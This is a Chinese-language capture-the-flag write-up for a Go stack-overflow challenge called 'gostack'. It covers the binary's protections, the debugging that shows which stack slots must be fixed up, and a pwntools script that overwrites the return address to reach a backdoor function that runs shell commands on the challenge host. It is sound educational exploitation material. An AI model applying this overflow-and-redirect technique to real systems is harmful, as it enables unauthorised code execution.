

# gostack 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示


网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag


## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```
